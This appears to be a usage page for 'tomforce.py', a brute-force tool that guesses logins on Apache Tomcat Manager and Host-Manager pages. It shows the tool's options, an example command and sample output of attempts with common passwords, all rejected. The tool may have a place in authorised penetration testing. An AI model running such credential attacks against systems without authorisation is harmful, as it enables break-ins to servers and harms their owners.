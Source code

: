 # Usage

Tomcat Manager or Host-Manager Credential Bruteforcing

options:

-h, --help                              show this help message and exit  
-U URL, --url URL                       Base URL to the Tomcat page (e.g., http://target.com)  
-P PATH, --path PATH                    Manager or host-manager URI (e.g., /host-manager/html)  
-u USERNAMES, --usernames USERNAMES     Path to file containing usernames  
-p PASSWORDS, --passwords PASSWORDS     Path to file containing passwords  
-v, --verbose                           Enable verbose output to see attempted credentials and encoded values  
-r RATE_LIMIT, --rate-limit RATE_LIMIT  Delay in seconds between requests (e.g., 0.5 for half a second)  
                        
# Example

python3 tomforce.py -U https://example.com -P /host-manager -u usernames.txt -p passwords.txt -v

[\+] Starting Brute-force Attack...                                                                        
[\*] Trying root:123456 → Encoded: cm9vdDoxMjM0NTY= → HTTP 401                                                                
[\*] Trying root:admin → Encoded: cm9vdDphZG1pbg== → HTTP 401                                                                 
[\*] Trying root:12345678 → Encoded: cm9vdDoxMjM0NTY3OA== → HTTP 401                                                          
[\*] Trying root:123456789 → Encoded: cm9vdDoxMjM0NTY3ODk= → HTTP 401                                                         
[\*] Trying root:1234 → Encoded: cm9vdDoxMjM0 → HTTP 401                                                                      
[\*] Trying root:12345 → Encoded: cm9vdDoxMjM0NQ== → HTTP 401                                                                 
[\*] Trying root:password → Encoded: cm9vdDpwYXNzd29yZA== → HTTP 401                                                          
[\*] Trying root:123 → Encoded: cm9vdDoxMjM= → HTTP 401                                                                       
[\*] Trying root:Aa123456 → Encoded: cm9vdDpBYTEyMzQ1Ng== → HTTP 401                                                          
[\*] Trying root:1234567890 → Encoded: cm9vdDoxMjM0NTY3ODkw → HTTP 401                                                        
[\*] Trying root:UNKNOWN → Encoded: cm9vdDpVTktOT1dO → HTTP 401                                                               
[\*] Trying root:1234567 → Encoded: cm9vdDoxMjM0NTY3 → HTTP 401                                                               
[\*] Trying root:123123 → Encoded: cm9vdDoxMjMxMjM= → HTTP 401                                                                
[\*] Trying root:111111 → Encoded: cm9vdDoxMTExMTE= → HTTP 401                                                                
[\*] Trying root:Password → Encoded: cm9vdDpQYXNzd29yZA== → HTTP 401
